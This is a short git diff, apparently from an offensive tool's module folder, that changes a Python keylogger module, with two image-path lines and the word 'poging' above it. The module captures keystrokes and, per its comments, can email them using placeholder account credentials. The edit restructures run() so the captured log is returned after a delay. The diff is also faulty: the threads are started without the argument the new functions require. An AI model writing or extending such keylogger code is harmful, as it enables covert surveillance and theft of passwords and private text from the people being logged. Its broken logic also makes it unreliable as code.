

poging

diff --git a/modules/keylogger.py b/modules/keylogger.py
@@ -16,19 +16,21 @@ EMAIL_ADDRESS = "email@provider.tld"
 EMAIL_PASSWORD = "password_here"
 
 def run(**args):
+    keylogger = Keylogger(interval=SEND_REPORT_EVERY, report_method="file")
     
-    def func1():
-        keylogger = Keylogger(interval=SEND_REPORT_EVERY, report_method="file")
+    def func1(keylogger):
     # if you want a keylogger to send to your email
     # keylogger = Keylogger(interval=SEND_REPORT_EVERY, report_method="email")
     # if you want a keylogger to record keylogs to a local file 
     # (and then send it using your favorite method)
         keylogger.start()
-    def func2():
-        print("Working")
+    
+    def func2(keylogger):
+        time.sleep(60)
+        return keylogger.log
     
     Thread(target = func1).start()
-    Thread(target = func2).start()
+    return Thread(target = func2).start()
 
 class Keylogger:
     def __init__(self, interval, report_method="file"):
